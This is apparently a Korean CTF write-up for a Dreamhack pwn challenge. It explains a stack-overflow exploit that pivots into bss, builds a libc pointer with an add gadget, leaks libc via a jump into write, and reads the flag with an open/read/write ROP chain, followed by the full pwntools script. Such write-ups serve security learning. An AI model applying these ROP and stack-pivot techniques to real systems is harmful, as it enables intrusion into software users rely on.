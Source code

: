 익스 코드를 봐도 내가 아니며 코드의 의도를 알 수 없기 때문에 흐름을 써보겠다.
`bof`가 조금 나고 카나리가 없다. 바이너리 pie가 없긴 한데 쓸만한 가젯이 없다. 일단 내가 보기엔 없어보였다. 그래서 `pop rdi` 문제처럼 `bss`에 `libc` 함수를 하나 만들어서 쓴다. 여러 가지가 가능할 거 같아서 어떤 함수를 만들까 고민했는데 간단하게 `write` 함수를 만들어서 `libc` 릭을 할려고 했다.
`write` 함수를 실행할 수 있다고 하자. 그럼 `libc` 함수를 출력해야 하므로 `rdi`, `rsi`, `rdx`를 변경해야 한다. `rdi`는 `main`에서 변조가 가능한데, 나머지 두 개가 문제다. `write` 내부를 보면 다음과 같은 로직이 있다.
```
0x0000000000114a44 <+36>:    mov    QWORD PTR [rsp+0x18],rdx
0x0000000000114a49 <+41>:    mov    QWORD PTR [rsp+0x10],rsi
0x0000000000114a4e <+46>:    mov    DWORD PTR [rsp+0x8],edi
0x0000000000114a52 <+50>:    call   0x90a70
0x0000000000114a57 <+55>:    mov    rdx,QWORD PTR [rsp+0x18]
0x0000000000114a5c <+60>:    mov    rsi,QWORD PTR [rsp+0x10]
0x0000000000114a61 <+65>:    mov    r8d,eax
0x0000000000114a64 <+68>:    mov    edi,DWORD PTR [rsp+0x8]
0x0000000000114a68 <+72>:    mov    eax,0x1
0x0000000000114a6d <+77>:    syscall
```

윗 부분과 아랫 부분이 어떤 행동을 하는지 감이 올 것이다. 여기서 `rdx`랑 `rsi`를 불러오는 `bss`에 값을 입력하고 `write + 46`으로 뛰면 `rsi`, `rdx`를 원하는대로 설정할 수 있다.
근데 이러면
`add dword ptr [rbp - 0x3d], ebx ; nop ; ret`
이 가젯을 4번 써야 한다. 정말 귀찮았다.

`libc` 릭이 끝났다. 이제 `pop rsi ; ret`과 `syscall` 가젯이 있다. 근데 `pop rdi ; ret` 가젯이 없다. 사실 있는데 필자가 이 문제를 8시간 째 푸는 중이라 정신이 없는 상태에서
`ROPgadget --binary libc.so.6 | grep "pop rdx ; ret"`
이렇게만 찾고 없어서 그냥 없다고 착각해버렸다. 그래서 `pop rdx` 가젯 없이 orw 코드를 짜야했다. `open`은 `rdx`를 안 쓰니까 그냥 하고, `bss`에 값을 의도적으로 넣어서 스택 이동을 생각해주면 `main`의 `read`를 방금 열은 `flag`파일을 읽는데 사용하고 다시 `ROP`를 할 수 있게 된다. `write`는 `rdx`가 필요해서
`0x000000000009133b : xor dh, 0x80 ; syscall`
이 가젯을 사용했다. `syscall` 실행 후에 바로 터지던데 어짜피 출력했으므로 상관없다.

`rbx` 컨트롤 트릭을 사용하는 문제는 원래 스택 사용이 복잡해서 코드가 더러운데, `pop rdx` 가젯 없이 익스한 관계로 `write` 트릭도 신경쓰느라 머리가 너무 아팠다. 근데 `write` 트릭은 실제 씨텝에서도 쓸만할 듯

# exploit

```python
from pwn import *
from time import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./void')
p = remote('host1.dreamhack.games', 10710)
e = ELF('./void')
l = ELF('./libc.so.6')
bss = e.bss() + 0x1000
main = 0x4013C8
leave_ret = 0x40137e

def main_func(num : int, payload : bytes):
    sleep(0.5)
    p.sendline(str(num).encode())
    sleep(0.5)
    p.send(payload)

payload = b'a' * 0x70 + p64(bss + 0x3500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x2500) + p64(main + 0x32) + p64(bss + 0x1000) + p64(main + 8)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x1500) + p64(main + 0x32) + p64(bss + 0x3510) + p64(leave_ret)
main_func(1, payload)

payload = p64(main + 5) * 14 + p64(bss + 0x500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x30 + (p64(bss + 0x5d0) + p64(main + 0x32)) + (p64(bss + 0x5e0) + p64(main + 0x32)) + b'a' * 0x10 + (p64(bss + 0x600) + p64(main + 0x32)) + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = (l.sym['write'] + 46 - (0x00007f3085641117 - 0x7f308552c000)) & ((1 << 32) - 1)
# 0x000000000040121c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
payload2 = b'a' * 0x70 + p64(0x406488 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056e0) + p64(leave_ret)
main_func(1, payload)

payload1 = -0x19999999 & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406494 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056f0) + p64(leave_ret)
main_func(1, payload)

payload1 = (main - 0x99999999) & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406490 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x405710) + p64(leave_ret)
main_func(1, payload)

payload1 = 8
payload2 = b'a' * 0x70 + p64(0x4064a8 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x1c)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = e.got['read']
payload2 = b'a' * 0x70 + p64(0x4064a0 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x5c + p32(2 + 0x31337 - 1) + b'a' * 0x10 + p64(0x406480) + p64(leave_ret)
main_func(1, payload)
l.address = u64(p.recvn(8)) - l.sym['read']
print(hex(l.address))

pop_rax = l.address + 0x0000000000045eb0
pop_rdi = l.address + 0x000000000002a3e5
pop_rsi = l.address + 0x000000000002be51
syscall = l.address + 594838
xor_dh_80_syscall = l.address + 0x000000000009133b
ret = 0x000000000040101a

# flag : 0x4074c0
payload = p64(bss + 0x2510) + p64(pop_rdi) + p64(0x4064b8) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall) + p64(main + 0x50) + b'a' * 0x20 + (b'flag' + b'\x00' * 4) + p64(0x406450) + p64(leave_ret)
main_func(1, payload)

payload = p64(pop_rdi) + p64(2) + p64(pop_rsi) + p64(0x4074c0) + p64(pop_rax) + p64(1) + p64(xor_dh_80_syscall) + b'a' * 0x38 + p64(0x405fb0 - 8) + p64(leave_ret)
main_func(1, payload)
p.interactive()
```